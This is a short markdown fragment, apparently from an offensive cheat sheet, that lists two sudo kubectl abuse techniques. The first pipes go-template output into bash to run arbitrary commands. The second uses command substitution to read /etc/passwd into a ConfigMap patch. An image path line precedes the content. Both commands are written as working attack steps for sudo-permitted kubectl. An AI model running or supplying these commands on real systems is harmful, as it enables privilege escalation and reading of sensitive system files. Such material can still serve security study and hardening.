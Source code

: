 ### Go-Template Payload in Output

```bash
sudo kubectl create cm pwn --from-literal=data='{{.}}' \
  --dry-run=client -o go-template='{{.data}}' | bash
```

### JSON Patch Abuse

```bash
sudo kubectl patch cm test --type='json' \
  -p="[{'op':'add','path':'/data/loot','value':'$(cat /etc/passwd)'}]" --dry-run=client
```

